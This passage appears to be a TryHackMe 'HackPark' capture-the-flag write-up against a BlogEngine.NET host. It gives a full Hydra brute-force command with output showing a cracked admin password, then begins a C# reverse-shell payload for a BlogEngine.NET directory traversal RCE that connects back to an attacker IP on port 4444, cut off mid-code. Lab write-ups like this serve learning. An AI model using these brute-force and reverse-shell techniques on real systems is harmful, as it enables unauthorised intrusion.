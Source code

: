 ```bash
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## 🕵️ Enumeration

Login Brute with Hydra
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/scans]
└─$ hydra -l admin -P /media/sf_Exchange/Dictionaries/rockyou.txt -t 40 $ip -s 80 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=jmeTjZ7PmcvuwStr2W3ZM9I%2Bkd6PnFk2WtONu1UQsZ%2BAht2wl0LIZPECnY%2Bsq%2FQiakuMzkzTMsVdJwi7KdLTHJ4D9hXEMVFlkONCD%2FySW8pKNDK7rzHbWfgm9ypeAy1K2SAS3DAivKVIoi4q9AP7EAUF4ueYfPzNPh2ecNwtRCr2Zwam&__EVENTVALIDATION=fRGCMUKDt8RMmdUcD%2F8T3Z3q8oVlLsbt8js6skEXr494OrEbp894EcmAg05GcsS%2FzoceQhhTYuUWzh2lEyQ03QX65nz4AvB798HRR%2F%2BJ%2FYo84%2B8vxQfETylrP3FauP6xcDhW57d64TFIGSUaw5FRol8h5s7RIMhAvv%2BH%2FTQPbald7P%2BY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-04 05:25:16
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344398 login tries (l:1/p:14344398), ~358610 tries per task
[DATA] attacking http-post-form://10.10.53.26:80/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=jmeTjZ7PmcvuwStr2W3ZM9I%2Bkd6PnFk2WtONu1UQsZ%2BAht2wl0LIZPECnY%2Bsq%2FQiakuMzkzTMsVdJwi7KdLTHJ4D9hXEMVFlkONCD%2FySW8pKNDK7rzHbWfgm9ypeAy1K2SAS3DAivKVIoi4q9AP7EAUF4ueYfPzNPh2ecNwtRCr2Zwam&__EVENTVALIDATION=fRGCMUKDt8RMmdUcD%2F8T3Z3q8oVlLsbt8js6skEXr494OrEbp894EcmAg05GcsS%2FzoceQhhTYuUWzh2lEyQ03QX65nz4AvB798HRR%2F%2BJ%2FYo84%2B8vxQfETylrP3FauP6xcDhW57d64TFIGSUaw5FRol8h5s7RIMhAvv%2BH%2FTQPbald7P%2BY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed
[80][http-post-form] host: 10.10.53.26   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-04 05:26:15
```

Creds are 
login: **admin**   password: **1qaz2wsx**



## 📂 Получение доступа

Exploit для BlogEngine.NET <= 3.3.6 Directory Traversal RCE
```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.21.104.16", 4444)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

```